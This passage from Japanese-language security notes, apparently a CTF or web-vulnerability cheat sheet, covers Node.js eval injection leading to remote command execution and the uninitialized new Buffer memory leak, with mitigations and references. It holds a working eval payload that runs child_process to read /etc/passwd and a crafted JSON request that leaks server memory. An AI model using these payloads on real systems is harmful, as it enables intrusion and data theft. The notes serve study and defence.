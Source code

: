 とするとRCEできるらしい！！！   
これは以下のようになるから。   
```js
// 元はこれ
eval("  ''  == 'desktop'  ")

// 上にPayloadを挿入するとこうなる。-は文字列の引き算？
> eval("  'y'-require('child_process').exec('cat /etc/passwd > ../nodejs/output')-''  == 'desktop'  "); 
false

// +でも-でもどっちでもよさそう
> eval("  'y'+require('child_process').exec('cat /etc/passwd > ../nodejs/output')+''  == 'desktop'  "); 
false
> 
```
- 対策   
evalの入力検証を実装する。htmlEscapeはString型だけじゃなくてすべての型で行う。   
- 参考資料   
https://artsploit.blogspot.com/2016/08/pprce2.html   
https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/   

## Information leak
### new Buffer(100); (Node.js)
- 概要   
Node.jsで以下のように`new Buffer(req.body.text)`でバッファを作成した場合、`req.body.text`の型がString型でない場合、Bufferはnewで使用される前に初期化されないので、サーバーのメモリを返す脆弱性。   
- 例   
```js
> console.log(new Buffer('aaaa'));
<Buffer 61 61 61 61>
undefined
> console.log(new Buffer(100));
<Buffer 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ... 50 more bytes>
undefined
>
```
つまり、ログイン処理で以下のようになっており、POST形式にはJSONが使われている場合、リクエストを細工することでメモリをリークできる。   
```js
        var password = new Buffer(req.body.password);
        if(password.toString('base64') == config.secret_password) {
            req.session.admin = 'yes';
            res.json({'status': 'ok' });
        } else {
            res.json({'status': 'error', 'error': 'password wrong: '+password.toString() });
            
// POSTするデータ
// {"password":"test"} // 文字列"test"を送信。通常
// {"password":100}    // 数値100を送信。Buffer(100)が.toString()によってリークされる
```
- 発見方法   
`new Buffer();`が書かれている箇所を探す。   
- 対策   
`new Bufffer()`は危険なのでBufferの代わりに、Buffer.fromとBuffer.allocとBuffer.allocUnsafeが追加された。   
Buffer.allocUnsafeは初期化されないが、それ以外は初期化されるっぽい。   
- 参考資料   
https://techblog.yahoo.co.jp/advent-calendar-2016/node_new_buffer/   
概要   
https://www.smrrd.de/nodejs-hacking-challenge-writeup.html   
Writeup   